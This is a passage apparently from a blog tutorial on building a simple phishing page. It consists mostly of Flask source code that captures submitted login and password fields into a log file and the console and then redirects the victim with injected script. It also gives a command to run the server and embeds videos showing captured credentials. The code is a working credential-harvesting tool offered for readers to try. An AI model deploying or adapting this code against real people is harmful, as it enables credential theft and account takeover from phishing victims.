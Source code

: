 ```python
TO_LOG = ['login', 'password']
REDIRECT_URL = '__REDIRECT_URL__'


@app.route('/form', methods=['POST'])
def form():
    with open(LOG_FILE, 'a') as f:
        f.write(time.ctime() + '\n')
        # import pdb; pdb.set_trace()
        for i in TO_LOG:
            if i in request.form:
                log = i + ' = ' + request.form[i]
                f.write(log + '\n')
                print log
        f.write('\n')
    return "<script>window.location='" + REDIRECT_URL + "'</script>"


@app.route('/')
def index():
    return render_template('index.html')


if __name__ == '__main__':
    manager.run()
```

These lines of code spin up a web server that binds to whichever unix port you want it to bind to and serves up our malicious page. 
try running it yourself if you haven't already: `python app.py runserver -h 0.0.0.0 -p 8090`


<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://minio-api.thekor.eu/chirpy-videos-f1492f08-f236-4a55-afb7-70ded209cb28/chirpy/chirpy-a-simple-phishing-page-2023-03-27%2022-59-36.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

</div>

Don't mind the keyring prompt that I ignored in the video above, the captured email + password can be found in the console logs as well as in the text log on the server as displayed on the video below:

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://minio-api.thekor.eu/chirpy-videos-f1492f08-f236-4a55-afb7-70ded209cb28/chirpy/chirpy-a-simple-phishing-page-2023-03-27%2023-07-54.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

</div>
